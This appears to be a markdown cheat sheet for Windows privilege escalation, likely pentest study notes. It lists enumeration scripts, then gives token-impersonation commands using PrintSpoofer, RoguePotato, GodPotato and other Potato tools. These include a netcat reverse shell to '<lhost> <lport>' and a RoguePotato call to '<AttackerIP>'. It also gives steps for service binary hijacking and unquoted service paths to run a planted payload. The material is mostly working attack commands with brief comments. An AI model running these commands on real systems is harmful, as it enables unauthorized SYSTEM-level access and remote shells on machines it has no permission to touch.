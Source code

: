 ## Automated Scripts

```bash
winpeas.exe
winpeas.bat
Jaws-enum.ps1
powerup.ps1
PrivescCheck.ps1
```

## Token Impersonation



- Command to check `whoami /priv`

```powershell
#Printspoofer
PrintSpoofer.exe -i -c powershell.exe 
PrintSpoofer.exe -c "nc.exe <lhost> <lport> -e cmd"

#RoguePotato
RoguePotato.exe -r <AttackerIP> -e "shell.exe" -l 9999

#GodPotato
GodPotato.exe -cmd "cmd /c whoami"
GodPotato.exe -cmd "shell.exe"

#JuicyPotatoNG
JuicyPotatoNG.exe -t * -p "shell.exe" -a

#SharpEfsPotato
SharpEfsPotato.exe -p C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe -a "whoami | Set-Content C:\temp\w.log"
#writes whoami command to w.log file
```

## Services

### Binary Hijacking

```powershell
#Identify service from winpeas
icalcs "path" #F means full permission, we need to check we have full access on folder
sc qc <servicename> #find binarypath variable
sc config <service> <option>="<value>" #change the path to the reverseshell location
sc start <servicename>
```

### Unquoted Service Path

```bash
wmic service get name,pathname | findstr /i /v "C:\Windows\\" | findstr /i /v """  #Displays services which has missing quotes, this can slo be obtained by running WinPEAS
#Check the Writable path
icalcs "path"
#Insert the payload in writable location and which works.
sc start <servicename>
```
